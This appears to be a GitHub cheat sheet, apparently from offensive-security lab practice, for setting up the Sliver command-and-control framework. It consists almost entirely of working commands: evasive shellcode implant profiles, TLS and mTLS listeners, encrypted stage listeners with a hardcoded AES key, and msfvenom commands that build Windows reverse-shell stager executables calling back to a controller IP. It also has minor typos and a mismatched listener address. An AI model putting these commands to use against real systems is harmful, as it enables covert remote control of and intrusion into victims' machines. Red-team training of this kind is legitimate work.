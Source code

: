 # Sliver C2

## Setup Sliver for SliverLoader or MacroSliver with Encryption, Compression, HTTP(S) as Protocol and TLS

Create Profile
```bash
sliver > profiles new -b https://192.168.8.205:443 --evasion --format shellcode --arch amd64 sliver-amd64
```
For 32 bit payloads use
```bash
sliver > profiles new -b https://192.168.8.205:444 --evasion --format shellcode --arch x86 sliver-x86
```

Setup Listener with certificate for tls
```bash
sliver > https -L 192.168.8.205 -l 443 -c /tmp/certs/crt.crt -k /tmp/certs/key.key
```
```bash
sliver > https -L 192.168.8.205 -l 444 -c /tmp/certs/crt.crt -k /tmp/certs/key.key
```

Setup Stager Listener 
```
sliver > stage-listener --url https://192.168.8.205:8443 --profile sliver-amd64 -c /tmp/crt.crt -k /tmp/key.key -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV
```
or for 32 bit
```
sliver > stage-listener --url https://192.168.8.205:8444 --profile sliver-x86 -c /tmp/crt.crt -k /tmp/key.key -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV
```

## Setup Sliver with mtls and beacon payload and created by msfvenom

Create Profile
```bash
sliver > profiles new beacon --mtls 192.168.45.159:445 --format shellcode msftest
```

```bash
sliver > mtls -L 192.168.45.159 -l 445
```

```bash
sliver > stage-listener -u tcp://192.168.45.159:8080 -p msftest
```

For this, a stager with msfvenom can be created as follows

```bash
msfvenom --payload windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.159 LPORT=8080 --format exe --out stager.exe
```

## Sliver with https and session payload created by msfvenom

Create Profile
```bash
sliver >  profiles new -b https://192.168.45.159:443 --evasion --format shellcode --arch x86 offsec-vba
```

```bash
sliver > https -L 192.168.45.174 -l 443 -c /tmp/google.crt -k /tmp/google.key
```
For stage-listener, `--prepend-size` is required if msfvenom payloads should be used
```bash
sliver > stage-listener --url https://192.168.45.159:10443 --profile offsec-vba -c /htmp/google.crt -k /tmp/google.key --prepend-size
```

For this, a stager with msfvenom can be created as follows

```bash
msfvenom --payload windows/custom/reverse_winhttps LHOST=192.168.45.159 LPORT=10443 LURI=/hello.woff --format exe --out stager.exe
```
if amd64 is used, follow allong but choose aarch amd64 for the profile and the related x64 payload in msfvenom `windows/x64/custom/reverse_winhttps`
